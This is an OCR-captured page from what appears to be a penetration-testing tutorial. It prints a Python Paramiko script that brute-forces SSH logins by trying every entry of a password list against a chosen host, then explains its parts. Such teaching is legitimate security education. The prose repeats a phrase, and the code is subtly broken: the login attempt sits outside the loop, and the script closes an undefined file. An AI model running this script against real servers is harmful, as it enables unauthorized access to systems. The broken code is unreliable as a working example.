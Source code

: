 </br><em>The powerful Python language is supported by a number of modules that easily extend its capabilities. Paramiko is an SSHv2 implementation that will be useful in building SSH clients and servers.</br>
The example below shows one way to build an SSH password brute force attack script. As is often the case in programming, there rarely is a single correct answer for the case in programming, there rarely is a single correct answer for these kinds of applications. As a penetration tester, your usage of programming languages will be different for developers. While they may care about best practices and code hygiene, your goal will more often be to end with a code that works as you want it to. </em></br>
<em>By now, we should be familiar with the "try" and "except" syntax. This script has one new feature, "def". "Def" allows us to create custom functions, as seen below. The "ssh_connect" function is not native to Python but built using Paramiko and the "paramiko.SSHClient()" function. </em></br>
</br>
```python
import paramiko
import sys
import os

target = str(input("TARGET: "))
port = int(input("PORT: "))
username = str(input("USERNAME: "))
password_file=str(input("PASSWORD FILE: "))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    
    try:
        ssh.connect(target,port=port,username=username,password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code
    
with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
    try:
        response = ssh_connect(password)
        
        if response == 0:
            print(f"Password: {password}")
            exit(0)
        elif response == 1:
            print ("No luck")
    except Exception as e:
        print (e)
    pass
input_file.close()
```
</br><em>Reading the code, you will notice several distinct components:</br>
Imports: We import modules we will use inside the script. As discussed earlier, we will need Paramiko to interact with the SSH server on the target system. "Sys" and "os" will provide us with the basic functionalities needed to read a file from the operating system (our password list in this case). As we are using Paramiko to communicate with the SSH server, we do not need to import "socket".</em></br>
<em>Inputs: This block will request input from the user. An alternative way to do this would be to accept the user input directly from the command line as an argument using "sys.argv[]".
</br>SSH Connection: This section will create the "ssh_connect" function. Succesful authentication will return a code 0, a failed authentication will return a code 1.</em></br>
<em>Password list: We then open the password file supplied earlier by the user and take each line as a password to be tried.</em></br>